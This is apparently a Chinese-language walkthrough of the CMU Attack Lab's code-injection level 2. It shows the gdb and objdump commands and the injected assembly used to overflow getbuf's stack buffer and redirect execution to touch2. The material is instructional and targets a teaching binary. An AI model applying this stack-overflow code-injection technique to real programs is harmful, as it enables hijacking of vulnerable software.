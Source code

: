 ![img](pics/v2-c2de9253580efcd4077dde3a629b7b24_720w.jpg)

1. 当函数`getbuf`返回，当前栈顶指针`%rsp`指向图中所示位置，当调用指令`ret`时，会使得寄存器`%rip`保存`0x59b997fa`，并且使得`%rsp`指向`touch2地址`。
2. 当运行到我们注入的`ret`时，会再运行`torch2`。

由于该任务固定了栈地址不变，所以我们可以先通过以下代码获得函数`getbuf`申请的栈帧的最低地址为`0x5561dc78`，即图中的`地址1`。

```text
gdb ctarget
break *0x4017c4
run -q
info registers
```

我们需要将以下汇编代码转化为对应的二进制表示，保存到`CI-L2.s`中

```text
movq $0x59b997fa, %rdi
ret
```

然后使用以下命令

```text
gcc -c CI-L2.s #对CI-L2.s进行编译
objdump -d CI-L2.o > CI-L2.d #对其进行反编译
```

可以得到指令对应的十六进制编码

![img](pics/v2-5c9f09a8a0dbc51f007c21c52ac3947c_720w.jpg)

最后查看函数`touch2`对应的地址为`0x4017ec`。

我们可以将以上十六进制数按顺序拼接起来。**注意：**要将字符串填充40个，才能覆盖原始原始的返回地址。
